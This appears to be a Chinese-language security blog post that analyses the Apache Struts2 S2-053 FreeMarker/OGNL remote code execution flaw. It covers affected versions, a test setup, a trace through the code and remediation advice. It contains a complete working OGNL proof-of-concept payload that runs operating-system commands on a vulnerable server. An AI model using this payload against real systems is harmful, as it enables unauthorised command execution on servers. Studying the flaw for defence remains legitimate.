 ```yaml
---
layout:     post
title:      "Apache Struts2 Remote Code Execution (S2-053) "
date:       2017-09-15
categories: [Struts2, Remote Code Execution, Java Security]



---
```


### Versions Affected

```
Struts 2.0.1 - Struts 2.3.33, 
Struts 2.5 - Struts 2.5.10
```

### Description

> A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals
>
> When using expression literals or forcing expression in Freemarker tags (see example below) and using request values can lead to RCE attack.

```php+HTML
<@s.hidden name="redirectUri" value=redirectUri />

<@s.hidden name="redirectUri" value="${redirectUri}" />

<@s.hidden name="${redirectUri}"/>
```

根据官方表述该漏洞主要是Freemarker模板语言的一个特性，被开发人员错误利用导致因传入ognl表达式而造成RCE的风险，所以再结合官方给出的错误编码示例，很容易猜测到这个漏洞首先是一个安全编码导致的问题，而非struts2通杀漏洞，因此官方对该漏洞的风险定级为中危。

在java领域，表现层技术主要有三种：jsp、freemarker、velocity。Struts2使用FreeMarker作为其默认的模板引擎，FreeMarker负责将数据模型中的数据合并到模板中，从而生成标准输出，对于界面开发人员而言，他们只关心界面（也就是模板文件）的开发，而无需理会底层数据，而对于业务逻辑开发者，他们只需要关心负责将需要显示的数据填入数据模型即可，对于传统的jsp页面而言，FreeMarker是一个绝佳的替代方案。

### Vulnerability Environment

根据官方的漏洞表述，我们使用struts-2.5.10版本，写一个在FreeMarker中使用Struts2标签的ftl模板文件，功能比较简单获取name并输出

![freemarker-ftl](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-ftl.png)

在 Action 中，为了将name值传到以上的Freemarker 模板中，将name值绑定到相应的属性中即可， action 代码如下：

![freemarker-java](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-java.png)

这样一个漏洞环境就搭建好了，接下来就是进行漏洞测试和分析

### Vulnerability Analysis

漏洞利用很简单，提交`%{2*333}`观察返回name值，表达式被正确执行即可

![freemarker-page](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-page.png)

POC同s2-045就可以，带回显POC如下：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ipconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

我们知道在ftl模板里${···}本身就是ognl表达式，所以这个漏洞没有什么可以去分析的漏洞触发机制，不过作为struts2的ognl表达式执行漏洞学习案例还是不错的，很直接！

先看\org\apache\struts2\views\freemarker\ScopesHashModel.class，Struts2 Action get从前台获取到参数内容后，会先获得用户提交的参数名，然后从值栈（Value Stack）中找到符合参数值的内容（ognl），其中主要用到ValueStack的findValue方法

![s2-053-analysis1](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis1.png)

当action处理完成后，调用set方法。这里需要注意在Component类的copyParams方法，其中用到了setValue来处理，所以action的实例变量可以被OGNL访问

![s2-053-analysis2](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis2.png)

同样的在OgnlValueStack中的setValue再进行处理，继续跟进最后发现被OgnlUtil中的setValue来传递ognl表达式

最终ognl表达式被OgnlValueStack中的findValue所执行，因为POC不是以#开头，会把expr当做key值到contextMap中找，再次过程中ognl表达式被执行。

![s2-053-analysis3](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis3.png)

### Solution

首先你可以进行struts2版本升级，其中对freemarker配置中进行了更多的限制，其次本文开始就说了，这首先是一个安全编码的问题，正确的标签使用方法如下：

![solution](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-solution.png)








